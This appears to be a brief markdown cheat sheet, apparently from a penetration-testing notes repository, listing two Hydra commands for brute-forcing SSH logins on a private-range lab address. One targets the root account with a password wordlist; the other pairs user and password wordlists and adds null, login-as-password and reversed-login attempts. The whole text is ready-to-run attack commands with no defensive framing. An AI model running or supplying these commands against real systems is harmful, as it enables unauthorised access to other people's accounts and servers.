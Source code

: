 # Hydra

## SSH Bruteforce

### known username, password list

small list with null password, login as pass and reversed login looped around users.

```bash
hydra -v -V -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr -u
```

### user list, password list

```bash
hydra -v -V -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.168.88.129 ssh -t 8 -e nsr -u
```